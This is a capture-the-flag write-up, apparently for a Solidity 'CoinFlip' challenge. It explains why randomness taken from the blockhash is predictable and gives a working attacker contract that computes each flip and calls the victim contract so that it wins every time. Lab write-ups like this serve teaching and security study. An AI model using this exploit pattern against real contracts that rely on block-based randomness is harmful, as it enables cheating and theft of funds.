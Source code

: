 The challenge is to provide the coin flip value 10 consecutive times.

````
pragma solidity ^0.4.18;

contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
````

The following code portion means that you cannot do 10 guesses in the same block.

````
if (lastHash == blockValue) {
  revert();
}
````

Randomly picking `true` or `false` to provide for the contract has a 
negligible probability (2^-10).

We can also monitor the Ropsten network to learn the hash of the latest block, 
then quickly compute the flip value and make a transaction to the `flip` function.
This is however not 100% guaranteed to win 10 consecutive times.

My solution is to use a smart contract as an attacker, which computes the flip value,
and calls the `flip` function to guarantee the result.
This is possible because smart contract can access block hash :)

The following is my attacking contract, where `victim` is 
the address of the instance contract, which might be different from yours.

To win 10 times consecutively, all you need to do is call 10 times the `attack` 
function from your account.

````
pragma solidity ^0.4.18;
    
contract FlipAttacker {
    address public victim = 0xeff9679ad0a65a562119a6df583e6858da72e5e7;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    function attack() external {
        uint256 blockValue = uint256(block.blockhash(block.number-1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        victim.call(bytes4(keccak256("flip(bool)")), side);
    }
}
```` 